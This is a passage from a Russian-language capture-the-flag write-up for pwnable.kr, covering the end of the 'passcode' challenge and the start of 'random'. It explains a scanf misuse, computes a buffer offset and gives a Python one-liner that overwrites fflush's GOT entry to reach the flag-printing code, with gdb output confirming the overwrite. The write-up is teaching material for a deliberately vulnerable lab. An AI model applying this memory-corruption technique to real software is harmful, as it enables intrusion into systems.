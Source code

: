 ```c
        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

Отсутствие форматных символов в scanf'ах позволяет передать туда адреса и записать по ним, что нам нужно

Где находятся переменные:

`name: [ebp-0x70]
passcode1: [ebp-0x10]
passcode2: [ebp-0xc]
`

Но: char name[100]. passcode1 и passcode2 инты, каждый занимает 4 байта

Считаем оффсет, passcode1 - name = 0x70 - 0x10 = 0x60 = 96 байт

passcode1 занимает последние 4 байта массива name

* Заполняем массив до конца
* В последних 4-ёх байтах передаём адрес функции fflush из GOT - 0x0804a004
* scanf'ом в функции login перезаписываем адрес fflush в GOT на код, когда уже проверки прошли и функцией system вызывается cat - 0x080485e3 (передаём его в десятичной 134514147)
* При вызове fflush исполнение перейдёт на нужную нам часть листинга

```js
gdb-peda$ x/x 0x0804a004
0x804a004 <fflush@got.plt>: 0x08048436

gdb-peda$ x/x 0x0804a004
0x804a004 <fflush@got.plt>: 0x080485e3
```

```bash
python -c "print '\x01'*96 + '\x04\xa0\x04\x08' + '134514147'" | ./passcode
```

`Sorry mom… I got confused about scanf usage :(`

## [](#header-2)random

> Daddy, teach me how to use random value in programming!
> 
> ssh random@pwnable.kr -p2222 (pw:guest)

**random.c**

```c
#include <stdio.h>

int main(){
        unsigned int random;
        random = rand();        // random value!

        unsigned int key=0;
        scanf("%d", &amp;key);

        if( (key ^ random) == 0xdeadbeef ){
                printf("Good!\n");
                system("/bin/cat flag");
                return 0;
        }

```